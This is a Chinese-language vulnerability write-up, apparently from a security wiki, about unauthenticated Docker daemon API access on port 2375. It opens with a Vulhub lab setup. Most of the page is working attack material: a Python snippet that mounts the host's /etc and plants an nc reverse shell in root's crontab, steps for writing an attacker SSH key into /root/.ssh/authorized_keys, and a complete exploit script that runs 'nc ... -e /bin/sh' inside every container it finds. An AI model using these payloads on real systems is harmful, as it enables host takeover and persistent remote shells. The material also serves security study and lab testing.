

Docker daemon api 未授权访问漏洞 RCE¶
漏洞描述¶
Docker 是一个开源的应用容器引擎，让开发者可以打包应用及依赖包到一个轻量级、可移植的容器中，然后发布到 Linux 机器上，也可以实现虚拟化。Docker swarm 是 Docker 的集群管理工具，提供了标准的 Docker API。
在使用 Docker swarm 的时候，管理的 Docker 节点上会开放一个 TCP 端口 2375，绑定在 0.0.0.0 上，直接 HTTP 访问会返回 “404 Not Found”。可以通过该 API 执行 Docker 命令，例如创建/删除 container、拉取 image、执行反弹 shell。
环境搭建¶
Vulhub 编译及启动漏洞环境：
docker-compose build
docker-compose up -d
环境启动后，将监听 2375 端口。
漏洞复现¶
查看容器¶
http://your-ip:2375/containers/json
执行命令¶
列出所有镜像：
docker -H tcp://your-ip:2375 images
列出所有容器：
docker -H tcp://your-ip:2375 ps -a
启动一个已经停止的容器：
docker -H tcp://your-ip:2375 start <container ID>
连接一个已经停止的容器：
docker -H tcp://your-ip:2375 attach <container ID>
获取权限¶
写入 ssh 公钥¶
启动一个容器，挂载宿主机的 /root 目录，之后将攻击者的 ssh 公钥 ~/.ssh/id_rsa.pub 的内容写到入宿主机的 /root/.ssh/authorized_keys 文件中，之后就可以用 root 账户直接登录了。
本地获取 ssh 公钥：
ssh-keygen -t rsa
反弹 shell¶
随意启动一个容器，并将宿主机的 /etc 目录挂载到容器中，便可以任意读写文件了。可以将命令写入 crontab 配置文件，进行反弹 shell。
import docker
client = docker.DockerClient(base_url='http://[docker ip]:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc [your ip] 2333 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
监听 2333 端口，接收反弹 shell。
此处的反弹 shell 需要和/etc/crontabs/root 文件同时写入，不能后续追加。

漏洞 EXP¶
from __future__ import print_function
import requests
import logging
import json
import urllib.parse
# NOTE
# Enable Remote API with the following command
# /usr/bin/dockerd -H tcp://0.0.0.0:2375 -H unix:///var/run/docker.sock
# This is an intended feature, remember to filter the port 2375..
name = "docker"
description = "Docker RCE via Open Docker API on port 2375"
author = "Swissky"
# Step 1 - Extract id and name from each container
ip = "127.0.0.1"
port = "2375"
data = "containers/json"
url = "http://{}:{}/{}".format(ip, port, data)
r = requests.get(url)
if r.json:
for container in r.json():
container_id = container['Id']
container_name = container['Names'][0].replace('/','')
print((container_id, container_name))
# Step 2 - Prepare command
cmd = '["nc", "192.168.1.2", "4242", "-e", "/bin/sh"]'
data = "containers/{}/exec".format(container_name)
url = "http://{}:{}/{}".format(ip, port, data)
post_json = '{ "AttachStdin":false,"AttachStdout":true,"AttachStderr":true, "Tty":false, "Cmd":'+cmd+' }'
post_header = {
"Content-Type": "application/json"
}
r = requests.post(url, json=json.loads(post_json))
# Step 3 - Execute command
id_cmd = r.json()['Id']
data = "exec/{}/start".format(id_cmd)
url = "http://{}:{}/{}".format(ip, port, data)
post_json = '{ "Detach":false,"Tty":false}'
post_header = {
"Content-Type": "application/json"
}
r = requests.post(url, json=json.loads(post_json))
print(r)